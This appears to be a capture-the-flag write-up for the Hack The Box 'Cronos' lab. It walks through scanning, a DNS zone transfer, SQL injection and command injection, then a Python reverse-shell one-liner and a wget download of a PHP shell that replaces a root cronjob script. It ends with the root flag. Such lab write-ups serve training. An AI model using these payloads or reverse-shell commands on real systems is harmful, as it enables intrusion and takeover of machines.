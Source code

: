 # CRONOS

## NMAP

```bash
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nmap 10.10.10.13     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 05:44 EDT
Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nmap 10.10.10.13 -p 22,53,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 05:44 EDT
Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## ENUMERATION OF PORT 53

I used `nslookup` to look for domain name and found one `ns1.cronos.htb`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nslookup                                                                    1 ⨯
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb
```

I tried to use dig for dns zone transfer and found another domain `admin.cronos.htb`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ dig axfr @ns1.cronos.htb cronos.htb

; <<>> DiG 9.16.15-Debian <<>> axfr @ns1.cronos.htb cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 184 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Sep 04 06:18:17 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

## ADMIN.CRONOS.HTB

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos1.png)

I used `sqlmap` to check for any sqli vulnerbilities and found that the username parameter is vulnerable to `sleep based sql injections`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ sqlmap -u http://admin.cronos.htb --forms

...snip...

[06:47:05] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable  
```

Looking for payloads online I found this [resource](https://github.com/payloadbox/sql-injection-payload-list)

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos2.png)

Using `' or sleep(5)#` redirects us to `welcome.php`

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos3.png)

The form is performing `ping -c 1 ` command on the ip we supply to it.

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos4.png)

This can be exploited by using command injections 

Using `| id` executed the id command 

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos5.png)

## USER.TXT

I used `ls /home` to look for users

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos6.png)

Now I tried to read user.txt for user `noulis`

Using command `cat /home/noulis/user.txt`

![](https://github.com/Leo-2807/Writeups/blob/main/images/cronos7.png)

## ROOT.TXT

I used `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` as command to get back a reverse shell.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 55566
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ 
```

Running linpeas I found that `/var/www/laravel/artisan` is run as cronjob.

On doing google search I found this very helpful [article](https://fieldraccoon.github.io/posts/Linuxprivesc/) to gain a shell as root.

So we need to upload a reverse shell and change it's name to `artisan` .
Since our reverse shell is also a php file it will be executed and we'll get a shell as root.

I start a http server on my machine using command `python -m SimpleHTTPServer`
and then used the command 'wget http://10.10.14.5:8000/shell.php' to download the shell on the victim machine.

```bash
www-data@cronos:/var/www/laravel$ wget http://10.10.14.5:8000/shell.php
wget http://10.10.14.5:8000/shell.php
--2021-09-04 15:44:35--  http://10.10.14.5:8000/shell.php
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2585 (2.5K) [application/octet-stream]
Saving to: 'shell.php'

shell.php           100%[===================>]   2.52K  --.-KB/s    in 0.001s  

2021-09-04 15:44:35 (2.37 MB/s) - 'shell.php' saved [2585/2585]

www-data@cronos:/var/www/laravel$ cp shell.php artisan
cp shell.php artisan
```

After a minute I get a shell as root on my machine

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/cronos]
└─$ nc -lvnp 9999                                                               1 ⨯
listening on [any] 9999 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 43556
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:46:01 up  2:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```



